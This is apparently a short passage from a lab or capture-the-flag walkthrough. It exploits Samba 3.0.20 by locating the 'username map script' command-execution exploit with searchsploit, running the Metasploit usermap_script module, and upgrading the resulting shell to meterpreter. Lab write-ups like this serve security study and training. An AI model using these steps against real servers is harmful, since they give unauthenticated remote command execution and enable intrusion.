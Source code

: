 ```bash
searchsploit samba 3.0.20
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                          | unix/remote/16320.rb
```

```bash
msfconsole
search samba 3.0.20
use exploit/multi/samba/usermap_script
info
# Description:
#   This module exploits a command execution vulnerability in Samba 
#   versions 3.0.20 through 3.0.25rc3 when using the non-default 
#   "username map script" configuration option. By specifying a username 
#   containing shell meta characters, attackers can execute arbitrary 
#   commands. No authentication is needed to exploit this vulnerability 
#   since this option is used to map usernames prior to authentication!
exploit
```

<figure><img src="../../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

* Upgrade shell to `meterpreter` session.

